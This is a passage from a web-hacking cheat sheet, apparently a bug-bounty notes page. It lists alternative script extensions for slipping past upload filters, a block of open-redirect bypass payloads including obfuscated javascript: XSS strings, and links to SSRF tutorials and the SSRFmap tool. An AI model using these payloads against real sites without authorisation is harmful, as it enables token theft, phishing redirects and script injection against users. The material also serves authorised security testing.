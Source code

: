 **Alternative Extensions**

- PHP - pht, phpt, phtml, php3, php4, php5, php6, php7
- CFM - cfml, cfc, dbm
- ASP - aspx
- Perl - pl, pm, cgi, lib
- JSP - jspx, jsw, jsv, jspf

### Open Redirect

**Scenarios**

- Grab tokens via mis-configured apps/login flows
- Bypassing blacklists for SSRF/RCE
- XSS via "location.href = 'javascript:alert(0)1'"
- Taking advantage of fileuploads and mobile devices

**Bypasses**

```
https%3A%2F%2Fmysite.com%2F
https%3A%2F%2Fexample.com%2F%3Freturnurl%3D%2F%2Fmysite.com%2F
\/yoururl.com
\/\/yoururl.com
\\yoururl.com
//yoururl.com
//theirsite@yoursite.com
https://yoursite?c=.theirsite.com/
https://yoursite.com#.theirsite.com/
https://yoursite.com\.thersite.com/
//%2F/yoursite.com
////yoursite.com
https://theirsite.computer/ - (if they just check for *theirsite.com*, .computer is a valid tld!
https://theirsite.com.mysite.com - (Treat their domain as subdomain to yours)
/%0D/yoursite.com - (Also try %09, %00, %0a, %07)
java%0d%0ascript%0d%0a:alert(0), j%0d%0aava%0d%0aas%0d%0acrip%0d%0at%0d%0a:confirm`0` ,java%07script:prompt`0` ,java%09scrip%07t:prompt`0`
```
<https://www.bugbountynotes.com/training/tutorial?id=1>

### SSRF

- SSRF - Server Side Request Forgery (Types and ways to exploit it) Part-1: <https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-1-29d034c27978>
- SSRF - Server Side Request Forgery (Types and ways to exploit it) Part-2: <https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-2-a085ec4332c0>
- SSRF - Server Side Request Forgery (Types and ways to exploit it) Part-3: <https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-3-b0f5997e3739>

**Tools**

- <https://github.com/swisskyrepo/SSRFmap>

### SQL Injection
